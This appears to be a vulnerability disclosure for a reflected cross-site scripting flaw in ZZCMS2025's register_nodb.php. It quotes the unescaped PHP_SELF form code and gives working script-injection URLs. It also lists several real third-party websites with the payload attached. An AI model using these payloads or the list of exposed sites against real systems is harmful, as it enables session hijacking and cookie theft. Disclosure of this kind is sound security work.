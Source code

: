 # Cross-Site Scripting (XSS) Vulnerability in ZZCMS register_nodb.php



## Vendor Information

**Official Website**:  http://www.zzcms.net/

**Source Code Download Link**:  http://www.zzcms.net/download/zzcms2025.zip

**Product Version:**  ZZCMS2025



## Vulnerability Analysis



### Source Code Analysis

The file `3/ucenter_api/code/register_nodb.php` was examined and found to contain a form submission.

```php+HTML
if(empty($_POST['submit'])) {
	//注册表单
	echo '<form method="post" action="'.$_SERVER['PHP_SELF'].'?example=register">';
	echo '注册:';
	echo '<dl><dt>用户名</dt><dd><input name="username"></dd>';
	echo '<dt>密码</dt><dd><input name="password"></dd>';
	echo '<dt>Email</dt><dd><input name="email"></dd></dl>';
	echo '<input name="submit" type="submit">';
	echo '</form>';
}
```

`$_SERVER['PHP_SELF']` is a controllable variable. It directly echoes user-supplied data on the page without proper filtering or escaping. An attacker can exploit this vulnerability by crafting a malicious URL to execute arbitrary scripts, potentially leading to session hijacking or other malicious actions.



### Request Construction

// Display cookies alert

```http
http://demo.com/3/ucenter_api/code/register_nodb.php/"><script>alert(document.cookie)</script>
```



### Vulnerability Verification

```http
http://hzp.zzcms.net/3/ucenter_api/code/register_nodb.php/%22%3E%3Cscript%3Ealert(%22success%22)%3C/script%3E
```

![image-20250226185444560](/assest/zzcms/xss-register_nodb/xss.png)

### Website Reference

**Note: Actual case examples from cyberspace**

```
http://demo.zzcms.net/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
https://www.88zsw.com/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
http://818yyzs.com/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
http://bjp.zzcms.net/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
http://9.zzcms.net/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
http://hzp.zzcms.net/3/ucenter_api/code/register_nodb.php/"><script>alert("success")</script>
```

